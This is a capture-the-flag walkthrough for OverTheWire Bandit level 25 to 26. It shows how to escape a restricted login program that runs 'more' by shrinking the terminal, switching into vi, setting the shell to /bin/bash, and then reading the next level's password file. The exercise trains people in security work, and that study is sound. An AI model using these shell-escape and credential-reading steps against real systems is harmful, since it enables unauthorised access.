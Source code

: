 # Bandit Level 25 → Level 26
---

## ⚠️ Disclaimer

This level was solved with help from:

https://mayadevbe.me/posts/overthewire/bandit/level26/

---

## 🎯 Objective

You're logging into **bandit26**, but its default shell is **not** `/bin/bash`. You need to:

- Find out what **shell or program** runs by default for bandit26

- Understand **how it works**

- Find a way to **break out of it**

- Extract the password for bandit26


---


## 🛠️ Commands Used (with explanations)

- `ssh` - Connects to a remote server securely over the SSH protocol

  - `-i` - Specifies the SSH private key to use for authentication

- `cat` - Outputs the contents of a file

- `ls` - Lists files and directories in the current working directory

- `grep` - Searches for text patterns within files

- `more` - Displays text one screen at a time (used in showtext)

- `vi` - Opens a file in the Vi text editor (used to escape to shell)

  - `:set shell=/bin/bash` - Vi command that changes the default shell used by the `:shell` command

  - `:shell` - Vi command that opens a shell using the configured shell

  - `q` - Quits the Vi editor




---

## 🚀 Steps to Solve
1. **Open your terminal**

2. **Connect using SSH with a command executed immediately**:

```bash
 ssh bandit25@bandit.labs.overthewire.org -p 2220 
```

3. **Enter the password**

4. **List the contents of the home directory**:
```bash
ls
```
  - You should see:
    ```bash
    bandit26.sshkey
    ```

5. **Try logging in directly to bandit26**:
```bash
ssh -i bandit26.sshkey bandit26@localhost -p 2220
```
  - You should see:
    ```bash
    The authenticity of host '[localhost]:2220 ([127.0.0.1]:2220)' can't be established.
    ED25519 key fingerprint is SHA256:C2ihUBV7ihnV1wUXRb4RrEcLfXC5CXlhmAAM/urerLY.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])?
    ```
    - Type yes and press enter
    - You should see:
      ```bash
        _                     _ _ _   ___   __
       | |                   | (_) | |__ \ / /
       | |__   __ _ _ __   __| |_| |_   ) / /_
       | '_ \ / _` | '_ \ / _` | | __| / / '_ \
       | |_) | (_| | | | | (_| | | |_ / /| (_) |
       |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
      Connection to localhost closed.
      ```
      - This is expected since bandit26 does not use the shell `/bin/bash`
    

6. **Check what shell bandit26 uses**:
```bash
cat /etc/passwd | grep bandit26
```
  - You should see:
    ```bash
    bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
    ```
   
7. **List the contents of showtext**:
```bash
cat /usr/bin/showtext
```
  - You should see:
    ```bash
    #!/bin/sh

    export TERM=linux

    exec more ~/text.txt
    exit 0
    ```
    - bandit26’s shell is not `/bin/bash`, it is a shell script that runs instead of a shell
    - When `more` is running, it’s possible to spawn a shell or execute commands, but there are a few extra steps we need to take before this

8. **Resize the terminal window so it only shows two lines, i.e.**:
```bash
Connection to localhost closed.
bandit25@bandit:~$ 
```
- This step is imporant for the exploitation

9. **Try logging in again with the resize window**:
```bash
ssh -i bandit26.sshkey bandit26@localhost -p 2220
```
  - You should see:
    ```bash
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])?
    ```
    - Type yes and press enter
    - You should see:
      ```bash
        _                     _ _ _   ___   __
      --More--(16%)
      ```
      - Important! Dont resize the window

10. **Enter Vi by pressing V**:
```bash
v
```
  - You should see:
    ```bash
      _                     _ _ _   ___   __
    /text.txt" [readonly] 6L, 258B                                  1,3           Top
    ```
    - Important! Dont resize the window

11. **Enter a : into the Vi window**:
- You should see:
  ```bash
  :
  ```
  - Important! Dont resize the window

12. **Set the shell to `/bin/bash`**:
```bash
:set shell=/bin/bash
```

13. **Enter a : into the Vi window**:
- You should see:
  ```bash
  :
  ```
  - Important! Dont resize the window

14. **Activate the shell**:
```bash
:shell
```
- You should see:
  ```bash
  :shell
  -- More --
  ```

15. **Resize the window**
- You should see:
  ```bash
  -- More --
           SPACE/d/j: screen/page/line down, b/u/k: up, q: quit
  ```
  
17 **Exit Vi**:
- Exit with Q
- You should see:
  ```bash
  bandit26@bandit:~$
  ```
      
18. **Read the password**
```bash
cat /etc/bandit_pass/bandit26
```
  



## 🎉 You’ve now completed Level 25 → Level 26!


---

## 🧠 Lessons Learned / Notes
- **Alternate shells**: Users don’t always have a normal shell. They might run into restricted or custom programs instead.

- **`more` and `vi` escape tricks**: Text viewers/editors often allow shell escapes (e.g., `:/bin/bash`)

- **setuid binaries**: These can be dangerous if they run as another user and allow command execution.

- **Always check `/etc/passwd`** when a login behaves strangely-it tells you what shell or command is run.
